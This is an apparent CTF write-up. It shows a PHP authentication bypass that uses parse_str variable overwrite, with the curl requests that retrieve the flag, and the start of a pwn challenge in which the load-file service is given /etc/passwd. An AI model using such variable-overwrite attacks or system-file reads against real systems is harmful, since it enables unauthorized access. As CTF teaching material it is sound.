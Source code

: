 Since we're still new with PHP, we begin by verifying that we can hit the `echo 'fail :(';` line.
```bash
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth

fail :(
```

Great! Now to read the flag, we must provide a username and password such that the MD5 hash of their concatenation will yield `c019f6e5cd8aa0bbbcc6e994a54c757e`.

Initially, I thought that all I had to do was crack this hash, but that didn't seem quite right for a web challenge. I looked back at the code. Reading more documentation pages revealed that `$res = parse_str($query);` seemed vulnerable to arbitrary variable overwrite. Hosting my own page to test this locally revealed that we were correct!

```php
<?php
$var = 'test';
parse_str($_SERVER['QUERY_STRING']);
echo $var;
?>
```

```bash
curl http://127.0.0.1/test.php

test
```

```bash
curl http://172.0.0.1/test.php?var=XXX

XXX
```

With a working PoC, we get the flag with the following:

```bash
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth\&hashed_password\=c019f6e5cd8aa0bbbcc6e994a54c757e

TWCTF{d0_n0t_use_parse_str_without_result_param}
```

# Load (Pwn)
```
host : pwn1.chal.ctf.westerns.tokyo
port : 34835
```
For this challenge, we're given a binary and host/port to connect to. Running the binary reveals that it is a **load file service**. Attempting to load our local `/etc/hosts` provides us with a surprising segmentation fault!

```bash
Load file Service
Input file name: /etc/passwd
Input offset: 0
Input size: 100
Load file complete!
Segmentation fault
```


[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php